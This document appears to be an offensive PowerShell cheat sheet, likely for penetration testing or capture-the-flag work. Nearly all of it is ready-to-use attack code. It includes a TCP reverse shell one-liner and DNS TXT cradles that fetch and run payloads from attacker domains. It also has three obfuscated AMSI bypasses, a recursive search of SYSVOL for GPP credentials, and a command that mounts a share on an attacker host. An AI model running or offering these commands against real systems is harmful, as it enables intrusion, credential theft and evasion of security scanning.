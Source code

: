 - Get ACLs of object (such as files and directories)
	- `Get-Acl -Path C:\\ | Format-List`
- Mount remote share
	- `New-PSDrive -name cthulhufhtagn -PSProvider "FileSystem" -Root "\\<attackerip>\cthulhufhtagn"`
- Searching directories recursively for cleartext credentials in files (GPP passwords for example)
	- `pushd \\example.com\sysvol`
	- `gci * -Include *.xml -Recurse -EA SilentlyContinue | select-string cpassword`
	- `popd`
- Find services with unquoted paths
	- `Get-CIMInstance -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name`
- Download and execute payload without IEX or Invoke-WebRequest (a few options)
	- `powershell . (nslookup -q=txt attacker.domain.com )[-1]`
	- `powershell . (Resolve-DnsName attacker.domain.com -Type txt).Strings`
- AMSI Bypass
	```Powershell
	$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
	$ABSD = 'AmsiS'+'canBuffer';
	$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
	[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
	```
	```Powershell
	[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
	```
	```Powershell 
	[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
	```

- Search for filenames
	- `gci -Recurse -Force -Path C:\Users -Include "flag" -ErrorAction SilentlyContinue`

- Reverse shell one-liner
```PowerShell
$cthulhu = New-Object System.Net.Sockets.TCPClient('10.10.14.30',8443);$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|%{0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2  = $ex + 'CF ' + (pwd).Path + '> ';$shog = ([text.encoding]::ASCII).GetBytes($ex2);$tntcl.Write($shog,0,$shog.Length);$tntcl.Flush()};
```

- DNS cradle
```PowerShell
$m= (-Join (Resolve-DnsName -Type txt pwn.domain.com).Strings);
IEX (([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m))))
```
